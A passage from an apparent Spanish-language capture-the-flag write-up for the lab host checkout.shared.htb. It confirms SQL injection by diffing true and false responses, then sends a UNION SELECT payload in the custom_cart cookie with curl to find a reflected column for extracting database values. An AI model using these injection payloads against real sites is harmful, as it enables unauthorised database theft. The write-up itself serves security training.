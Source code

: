 Esto debería dejarte con dos archivos llamados false.html{:.filepath} y true.html{:.filepath}. Para encontrar la diferencia entre los dos cuerpos de respuesta podemos usar diff.

```bash
diff false.html true.html
```

```bash
37,39c37,39
< <td>Not Found</td>
< <td>0</td>
< <td>$0,00</td>
---
> <td>53GG2EF8</td>
> <td>1</td>
> <td>$23,90</td>
45c45
< <th scope="col">$0,00</th>
---
> <th scope="col">$23,90</th>
```

La consulta falsa devuelve «No encontrado» y valores cero para la cantidad y el precio, mientras que la consulta verdadera devuelve una entrada de producto. Esto es definitivamente suficiente evidencia de una vulnerabilidad de inyección SQL para comenzar la explotación.

# Web Exploitation

Ya hemos determinado que la inyección SQL ciega basada en booleanos es posible con las consultas true y false, pero hay muchas posibilidades de que podamos utilizar las consultas UNION SELECT para filtrar valores de la base de datos sin tener que utilizar un canal secundario.

## Union Query Exfiltration

Primero vamos a averiguar el número de columnas de la consulta original para poder compararlo con nuestra extensión UNION SELECT.

```bash
payload=$(./makepayload.py "' UNION SELECT 'c0lumn1','c0lumn2','c0lumn3'#")

curl -k -s "https://checkout.shared.htb" -b "custom_cart=$payload" | \
	sed 's/^ *//' |
	egrep '</?td>'
```

```bash
<td>c0lumn2</td>
<td>1</td>
<td>$</td>
```

Observa cómo la respuesta contiene el valor que enviamos en la segunda columna. Esto significa que podemos extraer datos a través de la segunda columna. Ahora vamos a crear un script para obtener cualquier valor en bruto de la base de datos.
